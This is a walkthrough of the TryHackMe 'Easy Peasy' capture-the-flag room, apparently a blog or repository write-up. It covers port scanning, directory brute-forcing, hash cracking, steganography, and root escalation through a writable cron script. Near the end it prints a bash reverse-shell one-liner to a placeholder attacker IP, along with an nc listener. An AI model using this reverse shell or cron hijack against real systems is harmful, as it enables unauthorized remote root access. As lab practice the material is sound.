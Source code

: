 # Easy Peasy Walkthrough

Welcome to the Easy Peasy challenge from TryHackMe, you can find the official room [here](https://tryhackme.com/r/room/easypeasyctf) <br>

This is and easy level CTF made to practice recon with tools like nmp, gobustrer and do a little bit of privilege escalation on Linux.
<br/>


## The Challenge
We can start with nmap to scan all the ports:
```bash
nmap -sV -vv -p- MACHINE_IP
```
We can find 2 open ports: <br>
PORT   STATE SERVICE VERSION <br>
80/tcp open  http    nginx 1.16.1 <br>
6498/tcp  open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0) <br>
65524/tcp open  http    Apache httpd 2.4.43 ((Ubuntu)) <br>
<br>

Scanning the http server for directories with gobuster we can find one interesting
```bash
gobuster dir -u http://MACHINE_IP/ -w /usr/share/wordlists/dirb/common.txt -t 50
```
the directory is /hidden, if we navigate to it we land into a page saying "Welcome to ctf" and there is  only a background image.

I ran again gobuster to find hidden direcories inside the /hidden dir, and got one called /whatever, after opening it i got the message "dead end". <br>

Out of curiosity i went to check the page source code and found a base64 encoded string: `ZmxhZ3tmMXJzN19mbDRnfQ==`
After decoding it i got the first flag: REDACTED

I think that is now time to check out the other HTTP server, let's scan with gobuster to find some interesting directories:
```bash
gobuster dir -u http://MACHINE_IP:65524/ -w /usr/share/wordlists/dirb/common.txt -t 50
```
we find /robots.txt, navigate to it and there is a message "This Flag Can Enter But Only This Flag No More Exceptions", we can also notice a string `a18672860d0510e5ab6699730763b250`, which is an md5 hash, decoding it we get : --> REDACTED <br>
You can use any tool of choice or even an online website like: https://md5hashing.net/hash/md5


Navigating to the webpage IP:65524, we get the Apache server default page, looking at the source code i found another flag which is n3: --> REDACTED <br>

Still looking in the source code i found an hidden sentence  "its encoded with ba....:ObsJmP173N2X6dOrAgEAL0Vu", we know is base something, after a couple of tries i found out is base 62 and used [this](https://b64encode.com/tools/encode-decode-base62/) website to decode it. <br>
The result is a directory name --> REDACTED

Now we can visit the new discovered page, view the page source and find another hash: `940d71e8655ac41efb5f8ab850668505b86dd64186a66e57d1483e7f5fe6fd81`, this time the hashing algorithm is SHA256. <br>
We can use John the Ripper to creack the hash, first create a new text file and save inside the hash.
Firstly we need to know the hash type:
```bash
hashid hash.txt
```
since there are many possible matches the hint tells us it is GOST, now we can start cracking:
```bash
john --wordlist=easypeasy.txt --format=GOST hash.txt
```
Wait a little bit and thee password is: --> REDACTED

Now i was ready to go for ssh login but the password is not right for the anonymous user, looks like we need more investigation. <br>

On the /n0th1ng3ls3m4tt3r source code page i clicked on the image link, nothing special happened, it just displayed it, maybe there is something hidden in that image? <br>
We can download it and check with a tool like *steghide*
```bash
steghide --info binarycodepixabay.jpg 
```
When we try to get more information about the embedded data it tells us we need a passphrase, we can use the one we got from John the Ripper,
```bash
steghide --info binarycodepixabay.jpg -p mypasswordforthatjob
```
now we know there is a text file embedded into the image and the name is: secrettext.txt, let's extract it:
```bash
 steghide --extract -sf binarycodepixabay.jpg -p mypasswordforthatjob
```
```bash
cat secrettext.txt
```

We have found the username: boring, the password is encoded in binary, after decoding it --> REDACTED

Now we can finally log into the target machine with ssh
```bash
ssh boring@MACHINE_IP -p 6498
```

Let's open the flag file
```bash
cat user.txt
```
but we get something that does not look exactly as a flag, yet. --> synt{a0jvgf33zfa0ez4y}
Some rotation algorithm was used, ROT13 is very common in CTFs, apply it and we get the right one --> REDACTED

The last flag is almost always located in the root directory, hence we need to become root to be able to read it.
If we check the cronjobs:
```bash
cat /etc/crontab
```
There is a script running every minute called: .mysecretcronjob.sh, and located into /var/www/ directory; this one looks interesting because the routine is for the root user, if we can edit it we can use it as vector to gain admin rights.

Let's navigate to it  
```bash
cd /var/www/
```
here we can check the file permissions and attributes:
```bash
ls -la
```
What a luck! the file was created by our user and we have write permissions, we can paste inside some code to spawn a reverse shell on our machine.

First start a listener on your machine:
```bash
nc -lvnp 1234
```

on the target now edit the script file:
```bash
nano .mysecretcronjob.sh  
```
paste this inside:
```bash
/bin/bash -i >& /dev/tcp/YOUR_MACHINE_IP/1234 0>&1
```

Now wait a minute and you will have a root shell on your listener.

Finally read the content of the last flag:
```bash
cat /root/.root.txt
```

And here we have the last flag: REDACTED

Congratulations, you have completed the Easy Peasy challenge, hope you had fun practicing and following along.

See you in the next challenge 😃
